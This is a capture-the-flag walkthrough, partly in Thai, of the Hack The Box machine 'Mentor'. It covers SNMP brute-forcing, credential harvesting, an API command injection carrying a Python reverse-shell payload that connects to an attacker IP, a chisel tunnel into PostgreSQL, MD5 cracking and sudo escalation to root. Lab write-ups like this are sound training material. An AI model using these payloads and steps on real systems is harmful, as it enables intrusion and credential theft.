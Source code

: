 # Recon

```bash
sudo ../Tools/scan.sh 10.10.11.193
[sudo] password for kali: 
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 22:10 EDT
Nmap scan report for 10.10.11.193
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c7:3b:fc:3c:f9:ce:ee:8b:48:18:d5:d1:af:8e:c2:bb (ECDSA)
|_  256 44:40:08:4c:0e:cb:d4:f1:8e:7e:ed:a8:5c:68:a4:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.03 seconds

```
## API Fuzzing 
```bash
ffuf -u http://10.10.11.193 -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18 -mc all
```
## API Enum
```bash
feroxbuster -u http://api.mentorquotes.htb --no-recursion --methods GET,POST
```

หากเราตรวจสอบเข้าไปที่ /admin จะพบว่ามี /check กับ /backup อยู่ในนั้นด้วย 

![](./IMG/009.png)

![](./IMG/003.png)



ข้อมูลข้างต้นจาก API ทำให้เราทราบว่ามีการเรียกใช้งารผ่าน API โดยมีชื่อผู้ใช้ james ซึ่งหากสำรวจจะยังไม่พบอะไรที่ไปต่อได้ 



## SNMP enum

```bash
snmpwalk -v2c -c public 10.10.11.193
./snmpbrute.py -t 10.10.11.193
```
![](./IMG/001.png)

จากข้อมูลด้านบนทำให้เราเห็น community string อีกตัวคือ "internal" ซึ่งเราสามารถใช้ snmp-walk ต่อได้



```bash
time snmpwalk -v2c -c internal 10.10.11.193
time snmpbulkwalk -v2c -c internal 10.10.11.193 ## ไวกว่า 
```

![](./IMG/002.png)

```credential
james:kj23sadkj123as0-d213
```

จากนั้นทดสอบเข้าด้วยบัญชีผู้ใช้ที่ได้ ตามภาพด้านล่าง จะพบว่าสามารถเข้าใช้งานได้ โดยระบบได้ตอบกลับมาเป็น jwt token 
![](./IMG/004.png)

ทดสอบใส่ jwt token ไปที่ /users เพื่อตรวจสอบ users ภายในระบบ จะพบว่ามี 2 users 
![](./IMG/005.png)
เราสามารถตรวจสอบ users ได้โดยใส่ user id ของแต่ละคน
![](./IMG/006.png)

จากนั้นทดสอบการทำงานของ /quotes/ เราจะเริ่มได้ข้อมูลของบทความต่างๆ 

![](./IMG/007.png)

หากทดสอบหน้า admin เราจะไม่สามารถเข้าถึงได้ อีกทั้งใน Swagger doc ยังไม่มีการเขียนไว้

![](./IMG/008.png)

ทดสอบ POST ไปที่ /admin/backup จะพบว่ามีการตอบกลับมา
![](./IMG/011.png)
โดยจากข้อมูลได้ระบุว่าให้เราใส่ body ไปด้วย (path) โดยหากทดสอบใส่ parameter เข้าไปจะพบว่ามีการตอบกลับมาว่า Done

![](./IMG/012.png)

## Command Injection 
ทดสอบ Command Injection ไปในนั้น 
![](./IMG/015.png)

ฝั่ง kali linux จะทำการรับด้วย tcpdump 
```bash
sudo tcpdump -ni tun0 icmp
```

![](./IMG/014.png)

## Shell as svc 

```http
{"path": ";python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.34\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"}
```

![](./IMG/016.png)

## Chisel Tunnel 

เราจำเป็นจะต้องสร้าง tunnel สำหรับเข้าไปที่ postgresql 

```bash
# Attacker 
chisel server -p 8000 --reverse
# Target 
./chisel_linx64 client 10.10.14.34:8000 R:5432:172.22.0.1:5432
```

## Connect to DB

```bash
psql -h 127.0.0.1 -p 5432 -U postgres
# Password: postgres 
```


```sql
\list
\connect mentorquotes_db 
\dt 

mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from cmd_exec;
                               cmd_output                               
------------------------------------------------------------------------
 uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
(1 row)

mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)

mentorquotes_db=# 

```

## MD5 Crack 

![](./IMG/017.png)


svc:123meunomeeivani

## Shell as svc 

```bash
ssh svc@10.10.11.193
```

## SNMP config Enum 

```bash
svc@mentor:/etc/snmp$ cat snmpd.conf 
includeDir /etc/snmp/snmpd.conf.d


createUser bootstrap MD5 SuperSecurePassword123__ DES
rouser bootstrap priv

com2sec AllUser default internal
group AllGroup v2c AllUser
#view SystemView included .1.3.6.1.2.1.1
view SystemView included .1.3.6.1.2.1.25.1.1
view AllView included .1
access AllGroup "" any noauth exact AllView none none
```

เราสามารถนำ credential login ด้วย james ได้ และหาก sudo -l ก้อจะเห็นได้ว่าสามารถใช้ /bin/sh ด้วยสิทธิ root ได้เลย 
![](./IMG/018.png)

# PWNED 
